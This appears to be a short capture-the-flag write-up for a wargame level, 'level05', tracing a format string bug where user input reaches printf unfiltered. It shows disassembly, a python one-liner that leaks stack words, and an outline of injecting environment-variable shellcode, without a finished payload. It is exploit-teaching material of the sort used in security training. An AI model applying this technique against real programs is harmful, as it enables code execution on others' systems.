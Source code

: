 # Level05

First step - testing the program

    $ ./level05 
    coucou
    coucou

Write the input

Start in GDB

There is a `fgets()` call, stored the input on a buffer of 100 chars. A loop on the buffer for transform the input into lowercase.

At the end, there is a call to `printf()` with the buffer as parameter, this is a format string

    0x08048500 <+188>:	lea    eax,[esp+0x28]   ; buffer
    0x08048504 <+192>:	mov    DWORD PTR [esp],eax
    0x08048507 <+195>:	call   0x8048340 <printf@plt>

Let's try it

    $ python -c 'print "BBBB"+"-%x"*12' | ./level05 
    bbbb-64-f7fcfac0-f7ec3af9-ffffd5ff-ffffd5fe-0-ffffffff-ffffd684-f7fdb000-62626262-2d78252d-252d7825

The format string works and we can find our input at the 10th position

To exploit it, we can store a shellcode in an env variable and inject it at the 10th position with the format string